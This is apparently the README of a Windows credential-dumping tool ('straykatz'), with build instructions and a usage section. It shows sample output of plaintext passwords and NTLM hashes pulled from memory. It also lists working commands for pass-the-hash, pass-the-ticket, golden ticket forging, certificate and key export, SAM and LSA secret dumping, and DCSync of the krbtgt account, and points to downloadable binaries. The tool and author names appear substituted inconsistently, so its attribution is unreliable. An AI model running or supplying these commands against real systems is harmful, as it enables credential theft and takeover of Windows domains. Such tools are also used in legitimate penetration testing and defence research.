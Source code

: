 # straykatz

**`straykatz`** is a tool I've made to learn `C` and make somes experiments with Windows security.

It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. **`straykatz`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

```
  .#####.   straykatz 2.0 alpha (x86) release "Kiwi en C" (Apr  6 2014 22:02:03)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   AUTHOR `NOMDEPLUME` ( benjamin@NOMDEPLUME.com )
 '## v ##'   https://blog.NOMDEPLUME.com/straykatz             (oe.eo)
  '#####'                                    with  13 modules * * */


straykatz # privilege::debug
Privilege '20' OK
 
straykatz # sekurlsa::logonpasswords
 
Authentication Id : 0 ; 515764 (00000000:0007deb4)
Session           : Interactive from 2
User Name         : Gentil Kiwi
Domain            : vm-w7-ult-x
SID               : S-1-5-21-1982681256-1210654043-1600862990-1000
        msv :
         [00000003] Primary
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult-x
         * LM       : d0e9aee149655a6075e4540af1f22d3b
         * NTLM     : cc36cf7a8514893efccd332446158b1a
         * SHA1     : a299912f3dc7cf0023aef8e4361abfc03e9a8c30
        tspkg :
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult-x
         * Password : waza1234/
...
```
But that's not all! `Crypto`, `Terminal Server`, `Events`, ... lots of informations in the GitHub Wiki https://github.com/NOMDEPLUME/straykatz/wiki or on https://blog.NOMDEPLUME.com (in French, _yes_).

If you don't want to build it, binaries are availables on https://github.com/NOMDEPLUME/straykatz/releases


## Quick usage
```
log
privilege::debug
```

### sekurlsa
```
sekurlsa::logonpasswords
sekurlsa::tickets /export

sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```

### kerberos
```
kerberos::list /export
kerberos::ptt c:\chocolate.kirbi

kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

### crypto
```
crypto::capi
crypto::cng

crypto::certificates /export
crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE

crypto::keys /export
crypto::keys /machine /export
```

### vault & lsadump
```
vault::cred
vault::list

token::elevate
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
token::revert

lsadump::dcsync /user:domain\krbtgt /domain:lab.local
```

## Build
`straykatz` is in the form of a Visual Studio Solution and a WinDDK driver (optional for main operations), so prerequisites are:
* for `straykatz` and `mimilib` : Visual Studio 2010, 2012 or 2013 for Desktop (**2013 Express for Desktop is free and supports x86 & x64** - http://www.microsoft.com/download/details.aspx?id=44914)
* _for `straykatz driver`, `mimilove` (and `ddk2003` platform) : Windows Driver Kit **7.1** (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800_

`straykatz` uses `SVN` for source control, but is now available with `GIT` too!
You can use any tools you want to sync, even incorporated `GIT` in Visual Studio 2013 =)

### Synchronize!
* GIT URL is  : https://github.com/NOMDEPLUME/straykatz.git
* SVN URL is  : https://github.com/NOMDEPLUME/straykatz/trunk
* ZIP file is : https://github.com/NOMDEPLUME/straykatz/archive/master.zip

### Build the solution
* After opening the solution, `Build` / `Build Solution` (you can change architecture)
* `straykatz` is now built and ready to be used! (`Win32` / `x64` even `ARM64` if you're lucky)
  * you can have error `MSB3073` about `_build_.cmd` and `mimidrv`, it's because the driver cannot be build without Windows Driver Kit **7.1** (WinDDK), but `straykatz` and `mimilib` are OK.

### ddk2003
With this optional MSBuild platform, you can use the WinDDK build tools, and the default `msvcrt` runtime (smaller binaries, no dependencies)

For this optional platform, Windows Driver Kit **7.1** (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800 and Visual Studio **2010** are mandatory, even if you plan to use Visual Studio 2012 or 2013 after.

Follow instructions:
* https://blog.NOMDEPLUME.com/programmation/executables-runtime-defaut-systeme
* _https://blog.NOMDEPLUME.com/cryptographie/api-systemfunction-windows#winheader_

## Continuous Integration
`straykatz` project is available on AppVeyor - https://ci.appveyor.com/project/NOMDEPLUME/straykatz

Its status is: ![AppVeyor CI status](https://ci.appveyor.com/api/projects/status/github/NOMDEPLUME/straykatz?svg=true&retina=true)

## Licence
CC BY 4.0 licence - https://creativecommons.org/licenses/by/4.0/

`straykatz` needs coffee to be developed:
* PayPal: https://www.paypal.me/delpy/

## Author
* AUTHOR `NOMDEPLUME`, you can contact me on Twitter ( @NOMDEPLUME ) or by mail ( benjamin [at] NOMDEPLUME.com )
* DCSync and DCShadow functions in `lsadump` module were co-writed with Vincent LE TOUX, you can contact him by mail ( vincent.letoux [at] gmail.com ) or visit his website ( http://www.mysmartlogon.com )

This is a **personal** development, please respect its philosophy and don't use it for bad things!